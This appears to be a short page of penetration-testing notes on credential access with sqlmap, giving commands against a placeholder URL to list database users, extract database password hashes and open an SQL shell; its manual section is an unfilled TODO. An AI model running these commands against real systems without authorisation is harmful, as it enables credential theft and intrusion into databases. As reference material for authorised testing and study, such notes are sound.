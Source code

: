 # 05 - Credentials

Search Tag(s): #sqlmap #enumeration-and-discovery #credential-access-and-dumping #data-exfiltration

## Automated

- Enumerate user database accounts.

```
$ sqlmap -u "<URL>" --random-agent --users
```

- Extract user database passwords.

```
$ sqlmap -u "<URL>" --random-agent --passwords
```

## Manually

TODO: Fill this info

```
$ sqlmap -u "<URL>" --random-agent --sql-shell
```